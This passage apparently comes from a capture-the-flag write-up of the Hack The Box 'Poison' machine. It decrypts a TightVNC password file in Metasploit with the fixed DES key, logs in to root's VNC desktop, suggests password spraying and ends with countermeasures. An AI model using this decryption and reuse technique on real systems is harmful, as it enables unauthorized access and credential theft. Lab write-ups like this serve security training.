 TightVNC passwords are essentially 8 character passwords and can be easily decoded like below:

```
$ xxd -p secret
bda85b7cd5967a21
```

```
kali@kali:~/htb/machines/poison/privesc$ msfconsole -q
msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
>> require 'rex/proto/rfb'
=> true
>> Rex::Proto::RFB::Cipher.decrypt ["bda85b7cd5967a21"].pack('H*'), fixedkey
=> "VNCP@$$!"
```

I got the sample code [here](https://github.com/frizb/PasswordDecrypts).
You can then reuse the password to login to VNC.
In a larger network, you may even want to use that password for password spraying.

```
kali@kali:~/htb/machines/poison/loot$ vncviewer 127.0.0.1:5901
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Password:
Authentication successful
Desktop name "root's X desktop (Poison:1)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding
```

## Countermeasures

* Don't include other PHP files as variables since this is what created the LFI vulnerability.
* Don't leave hints about how to get your passwords.
* Put proper access controls on the TightVNC password files. You can generally find TightVNC password files in the `~/.vnc/passwd` file.
* Avoid reusing passwords.
